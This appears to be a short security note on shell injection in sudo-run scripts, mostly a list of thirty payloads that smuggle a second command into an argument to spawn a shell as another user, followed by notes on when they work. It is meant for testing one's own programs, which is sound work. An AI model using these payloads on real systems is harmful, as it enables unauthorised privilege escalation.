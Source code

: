 # Shell Injection

A shell injection attack is a type of attack that allow for remote code
execution (RCE).  

It is a hazard that comes with bad shell scripting habits. These types of
attack mostly happen with command line arguments that are not parsed correctly,
or variables being incorrectly used (e.g., unquoted).  

## Examples of a Shell Injection

If you have a script or binary that runs with sudo, make sure you sanitize user
input before using it.  

That is, if you invkoke a command with CLI arguments without sanitizing them
or checking them in any way, your program may be susceptible to shell injection
attacks.  

Below is a set of shell injection attack examples, which can be used to test if
your program is subject to a shell injection attack.  
```bash
./bad-script '; sudo -u targetuser /bin/sh #'
./bad-script '&& sudo -u targetuser /bin/sh #'
./bad-script '|| sudo -u targetuser /bin/sh #'
./bad-script '$(sudo -u targetuser /bin/sh)'
./bad-script '`sudo -u targetuser /bin/sh`'
./bad-script '; sudo -u targetuser /bin/bash #'
./bad-script '&& sudo -u targetuser /bin/bash #'
./bad-script '|| sudo -u targetuser /bin/bash #'
./bad-script '$(sudo -u targetuser /bin/bash)'
./bad-script '`sudo -u targetuser /bin/bash`'
./bad-script '; sudo -u targetuser sh -c "sh" #'
./bad-script '&& sudo -u targetuser sh -c "sh" #'
./bad-script '|| sudo -u targetuser sh -c "sh" #'
./bad-script '$(sudo -u targetuser sh -c "sh")'
./bad-script '`sudo -u targetuser sh -c "sh"`'
./bad-script '; /bin/sh -c "sudo -u targetuser /bin/sh" #'
./bad-script '&& /bin/sh -c "sudo -u targetuser /bin/sh" #'
./bad-script '|| /bin/sh -c "sudo -u targetuser /bin/sh" #'
./bad-script '$(/bin/sh -c "sudo -u targetuser /bin/sh")'
./bad-script '`/bin/sh -c "sudo -u targetuser /bin/sh"`'
./bad-script '; sudo -u targetuser python -c "import pty; pty.spawn('/bin/sh')" #'
./bad-script '&& sudo -u targetuser python -c "import pty; pty.spawn('/bin/sh')" #'
./bad-script '|| sudo -u targetuser python -c "import pty; pty.spawn('/bin/sh')" #'
./bad-script '$(sudo -u targetuser python -c "import pty; pty.spawn('/bin/sh')")'
./bad-script '`sudo -u targetuser python -c "import pty; pty.spawn('/bin/sh')"`'
./bad-script '; sudo -u targetuser python3 -c "import pty; pty.spawn('/bin/sh')" #'
./bad-script '&& sudo -u targetuser python3 -c "import pty; pty.spawn('/bin/sh')" #'
./bad-script '|| sudo -u targetuser python3 -c "import pty; pty.spawn('/bin/sh')" #'
./bad-script '$(sudo -u targetuser python3 -c "import pty; pty.spawn('/bin/sh')")'
./bad-script '`sudo -u targetuser python3 -c "import pty; pty.spawn('/bin/sh')"`'
```

- These assume the binary unsafely concatenates or passes the argument directly 
  into a shell command without proper sanitization (e.g., using `system()`
  syscall, `popen()` syscall, or similar).  

- If the binary uses the `exec*()` family of system calls with proper `ARGV` 
  separation, command injection may not be possible.

- Also, these assume that the current user is allowed via sudoers to 
  run `sudo -u targetuser` commands without password, otherwise you'll
  be prompted or denied.
  
